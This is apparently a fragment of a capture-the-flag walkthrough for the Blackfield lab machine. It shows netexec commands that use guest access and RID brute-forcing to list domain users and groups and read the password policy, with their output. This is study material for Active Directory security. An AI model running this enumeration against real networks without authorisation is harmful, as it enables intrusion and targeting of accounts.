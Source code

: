 `netexec smb 10.10.10.192 -u 'guest' -p '' --rid-brute | grep 'SidTypeUser' | awk '{ print $6 }' | awk -F '\' '{ print $2 }' | grep -v 'BLACKFIELD' | tee ./domain_users.txt`:
```
Administrator
Guest
krbtgt
DC01$
audit2020
support
svc_backup
lydericlefebvre
PC01$
PC02$
PC03$
PC04$
PC05$
PC06$
PC07$
PC08$
PC09$
PC10$
PC11$
PC12$
PC13$
SRV-WEB$
SRV-FILE$
SRV-EXCHANGE$
SRV-INTRANET$
```

`netexec smb 10.10.10.192 -u 'guest' -p '' --rid-brute | grep 'SidTypeGroup' | awk -F '\' '{ print $2 }' | awk -F '(' '{ print $1 }' | tee ./domain_groups.txt`:
```
Enterprise Read-only Domain Controllers 
Domain Admins 
Domain Users 
Domain Guests 
Domain Computers 
Domain Controllers 
Schema Admins 
Enterprise Admins 
Group Policy Creator Owners 
Read-only Domain Controllers 
Cloneable Domain Controllers 
Protected Users 
Key Admins 
Enterprise Key Admins 
DnsUpdateProxy
```

`netexec smb 10.10.10.192 -u 'guest' -p '' --pass-pol`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\guest: 
```
❌
